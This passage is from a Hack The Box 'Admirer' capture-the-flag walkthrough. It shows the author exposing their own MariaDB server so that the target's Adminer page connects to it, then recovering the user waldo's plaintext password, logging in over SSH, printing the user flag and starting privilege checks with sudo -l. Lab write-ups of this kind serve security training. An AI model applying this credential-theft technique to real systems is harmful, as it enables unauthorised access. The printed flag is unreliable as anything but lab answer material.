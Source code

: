 MariaDB [admirer]> exit
Bye
```

Now we need to configure MYSQL to bind with the local address. we will do this by editing the conf file in ```/etc/mysql```

```
nano /etc/mysql/mariadb.conf.d/50-server.cnf
```
Now change the bind-address from 127.0.0.1 to 0.0.0.0

Now just restart the mysql service and login into adminer.php

![](https://github.com/Leo-2807/Writeups/blob/main/images/admirer7.png)

Now we need to get data from the target machine's database 
This is the [souce](https://dev.mysql.com/doc/refman/5.7/en/loading-tables.html) that I used 

![](https://github.com/Leo-2807/Writeups/blob/main/images/admirer8.png)

Now viewing the demo table we get the credentials for ```waldo```

```
 $username = "waldo";
 $password = "&<h5b~yK3F#{PaPB&dA}{H>";
```

## USER.TXT

We can use these creds to ssh into the machine and get user text

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/admirer]
└─$ ssh waldo@10.10.10.187          
waldo@10.10.10.187's password: 
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Wed Apr 29 10:56:59 2020 from 10.10.14.3
waldo@admirer:~$ whoami
waldo
waldo@admirer:~$ ls
user.txt
waldo@admirer:~$ cat user.txt
312eb9a4f210b71a63c80b0dfd25d2e7
```

## ROOT.TXT

### SUDO -L

```
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    listpw=always
